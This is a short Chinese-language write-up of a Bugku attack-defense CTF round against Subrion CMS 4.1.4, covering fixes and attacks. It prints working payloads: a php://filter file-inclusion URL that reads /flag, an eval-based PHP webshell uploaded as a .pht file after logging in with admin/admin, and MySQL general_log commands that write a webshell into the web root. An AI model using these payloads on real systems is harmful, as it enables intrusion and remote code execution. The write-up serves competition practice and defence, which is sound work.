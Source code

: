 # bugku-awd小记10.7

## Web

**Subrion CMS 4.1.4**

先把源码copy下来，拿D盾扫一遍

![image-20251007191012280](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834342.png)

#### 1.文件包含漏洞

fix：直接删除

![image-20251007191047854](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834344.png)

#### 2.弱口令+文件上传

![image-20251007191151830](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834345.png)

管理员后台的账户密码是admin/admin，同时可以从config.inc.php 中得到数据库密码![image-20251007191404310](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834346.png)

fix：改admin弱密码

![image-20251007191520845](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834347.png)

然后登录后台看到可以upload，所以攻击时考虑传马

#### 3.sql注入

在panel里

![image-20251007192515325](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834348.png)

Database处可以进行SQL注入，不过flag是错的

![image-20251007192544890](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834349.png)

这里去群里吹水去了，没来得及修



### attack：

#### 1.文件包含

访问，直接能读到flag

```
http://192-168-1-67.pvp6715.bugku.cn/game/index.php/?file=php://filter/convert.base64-encode/resource=/flag
```

#### 2.传马

**上传点：/panel/uploads**

传a.pht

```
GIF89a
<?php  @eval($_REQUEST['huaji']);?>
```

之后访问即可。

![image-20251007192348932](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834350.png)

#### 3.sql注入

panel里的database，先开启general_log

```
set global general_log=on;
```

然后让他写马进去，设置的日志文件路径

```
set global general_log_file="/var/www/html/set_config.php";
select '<?phpeval($_REQUEST[yunsee])?>';
```

这样也可以写马进去

![image-20251007193033553](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834351.png)

## PWN

队友出的，ret2text，签到题

直接读取即可。

![image-20251007193319745](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834352.png)

fix的内容没发出来，就不写（抄）了